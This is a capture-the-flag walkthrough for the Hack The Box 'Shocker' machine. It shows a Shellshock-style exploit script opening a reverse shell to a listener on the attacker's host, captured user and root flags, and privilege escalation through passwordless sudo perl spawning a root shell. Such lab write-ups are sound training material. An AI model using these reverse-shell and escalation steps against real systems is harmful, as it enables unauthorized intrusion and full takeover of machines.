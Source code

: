 
execute with listener open:

```bash
RxHackk 福 ~/Repos/RxHack/HTB/BOXES/SHOCKER/foothold ➤ 431f6ec|main⚡
819 💀 ± ➤ ./shocker.py 10.10.10.56 /cgi-bin/user.sh 10.10.16.2/443

──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

RxHackk 福 ~/Repos/RxHack/HTB/BOXES/SHOCKER ➤ 431f6ec|main⚡
817 💀 ± ➤ sudo rlwrap nc -lvrp 443
listening on [any] 443 ...
10.10.10.56: inverse host lookup failed: Unknown host
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.56] 33484
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$
```

### user.txt

```bash
shelly@Shocker:/home/shelly$ ls
user.txt
cat user.txt
cat user.txt
2ec24e11320026d1e70ff3e16695b233
shelly@Shocker:/home/shelly$
```

## PRIVESC

```bash
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/home/shelly$
```

### root.txt

perl shell ftw

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
ls /root
root.txt
cat /root/root.txt
52c2715605d70c7619030560dc1ca467
```
